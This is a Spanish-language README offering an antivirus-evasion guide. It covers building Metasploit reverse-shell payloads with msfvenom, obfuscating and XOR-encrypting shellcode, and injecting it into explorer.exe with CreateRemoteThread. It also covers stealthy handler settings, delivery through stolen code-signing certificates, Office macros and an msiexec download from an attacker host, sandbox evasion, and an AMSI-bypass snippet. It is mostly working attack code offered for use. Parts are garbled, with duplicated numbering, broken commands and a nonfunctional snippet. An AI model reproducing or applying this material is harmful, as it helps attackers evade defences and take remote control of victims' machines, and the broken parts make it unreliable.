

# JumpCode

### **Guía de Evasión de AV con Metasploit + Visual Studio Code**


#### **1. Generación del Payload (Ocultamiento Básico)**
```bash
msfvenom --platform windows -p windows/shell/reverse_tcp LHOST=192.168.1.X LPORT=5555 -f csharp
```
▸ **Mejora clave**:  
• Codifica 3 veces con `-e x86/shikata_ga_nai -i 3`  
• Usa payloads menos comunes: `windows/x64/meterpreter/reverse_https`  
• Añade nops: `-n 22`  

#### **2. Ofuscación del Shellcode**
```csharp
// Conversión a formato ofuscado (ejemplo real)
string payload = "*fc*e8*82...*d5";  // 1. Eliminar "0x", 2. Reemplazar con "*", 3. Quitar comas
``
▸ **Técnicas avanzadas**:  
• **Split inteligente**:  
```csharp
string[] hexParts = payload.Split(new[] { '*' }, StringSplitOptions.RemoveEmptyEntries);
```  
• **Cifrado XOR**: Añade capa de cifrado simple con clave aleatoria  

#### **3. Implementación en Visual Studio (Trucos Anti-EDR)**
```csharp
// Técnica de asignación memorya dinámica
IntPtr mem = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);

// Inyección en proceso legítimo (ej. explorer.exe)
IntPtr hProcess = OpenProcess(0x1F0FFF, false, targetPID);
WriteProcessMemory(hProcess, mem, shellcode, shellcode.Length, out _);
CreateRemoteThread(hProcess, IntPtr.Zero, 0, mem, IntPtr.Zero, 0, IntPtr.Zero);
```

#### **4. Configuración del Handler (Stealth Mode)**
```bash
msf6 > set EnableStageEncoding true
msf6 > set StageEncoder x64/zutto_dekiru
msf6 > set HttpUserAgent "Mozilla/5.0 (Windows NT 10.0)"
msf6 > set ExitOnSession false
```
#### **5. Abrir Msfconsole en la máquina atacante**
````bash
msfconsole
msfconsole /multi/handler
msfconsole(/multi/handler)> use/windows/shell/reverse_tcp
````
#### **6. Ejecutar el payload**
*Configurar el lhost y lport y finalmente lanzar el exploit*


#### **7. Finalmente abrir el scrip malicioso en la máquina atacada**


#### **5. Técnicas de Entrega (Bypass SmartScreen)**
• **Firma digital**: Usa signtool con certificados robados/auto-firmados  
• **Plantillas Office**: Incrusta en macros (usar nombres de funciones ofuscados)  
• **LOLBAS**: Ejecución via `msiexec.exe /i http://attacker/payload.msi`  

---

### **Tabla Comparativa: Técnicas vs Eficacia**

| Técnica                  | Detección AV | Dificultad | Eficacia |
|--------------------------|--------------|------------|----------|
| Shellcode crudo          | Alta         | Baja       | 20%      |
| Ofuscación básica (*)    | Media        | Media      | 45%      |
| + XOR Encryption         | Baja         | Alta       | 75%      |
| + Inyección en procesos  | Muy baja     | Alta       | 90%      |

---

### **Recomendaciones Clave**
1. **Sleep() es tu amigo**:  
   ```csharp
   Thread.Sleep(new Random().Next(2000, 5000)); // Evita sandboxes
   ```  
2. **API Hashing**: Resuelve APIs dinámicamente con:  
   ```csharp
   [DllImport("kernel32")] static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);
   ```  
3. **AMSI Bypass**: Incluye este código al inicio:  
   ```csharp
   var amsi = (new[] { 'A','m','s','i','S','c','a','n','B','u','f','f','e','r' });
   IntPtr ptr = VirtualAlloc(IntPtr.Zero, (uint)amsi.Length, 0x1000, 0x40);
   Marshal.Copy(amsi, 0, ptr, amsi.Length);
   ```
   ### **Flujo de Evasión Avanzado**

